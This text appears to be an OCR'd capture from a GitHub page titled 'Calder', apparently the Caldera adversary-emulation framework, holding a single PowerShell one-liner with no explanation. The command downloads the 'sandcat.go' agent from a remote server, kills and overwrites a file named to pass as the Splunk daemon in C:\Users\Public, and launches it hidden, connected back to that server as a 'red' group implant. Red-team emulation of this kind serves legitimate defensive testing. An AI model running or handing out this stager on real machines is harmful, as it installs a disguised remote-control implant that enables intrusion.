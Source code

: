 # Calder

$server="http://10.99.156.32:8888";$url="$server/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","sandcat.go");$data=$wc.DownloadData($url);get-process | ? {$_.modules.filename -like "C:\Users\Public\splunkd.exe"} | stop-process -f;rm -force "C:\Users\Public\splunkd.exe" -ea ignore;[io.file]::WriteAllBytes("C:\Users\Public\splunkd.exe",$data) | Out-Null;Start-Process -FilePath C:\Users\Public\splunkd.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;

